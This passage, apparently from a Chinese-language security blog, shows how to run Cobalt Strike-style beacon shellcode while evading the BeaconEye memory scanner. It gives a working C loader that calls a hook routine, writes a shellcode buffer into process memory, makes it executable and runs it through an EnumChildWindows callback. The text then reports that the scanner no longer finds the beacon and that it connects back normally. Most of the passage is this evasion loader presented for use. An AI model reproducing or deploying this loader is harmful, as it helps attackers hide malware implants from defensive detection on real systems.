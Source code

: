 最后我们执行 Shellcode 即可，在执行 shellcode 之前调用 HookTest 即可。

```plain
int main(){
    HookTest();
    unsigned char dll[263168] = {shellcode}
    SIZE_T size = sizeof(dll);
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    void* sh = VirtualAllocEx(GetCurrentProcess(), 0, (SIZE_T)size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    WriteProcessMemory(GetCurrentProcess(), sh, dll, size, &bytesWritten);
    VirtualProtectEx(GetCurrentProcess(), sh, size, PAGE_EXECUTE_READ, &oldProtect);
    EnumChildWindows(NULL, (WNDENUMPROC)sh, NULL);
}
```

然后我们使用 BeaconEye 扫描，可以看到已经扫描不到了。

[![](assets/1706496840-53f457383f1874b84ff2b80250d1890f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094514-8cc0178a-bbec-1.png)  
正常上线：

[![](assets/1706496840-678703dc9132291d6df87693856ab63c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094519-8fedaf9e-bbec-1.png)  
完整代码：
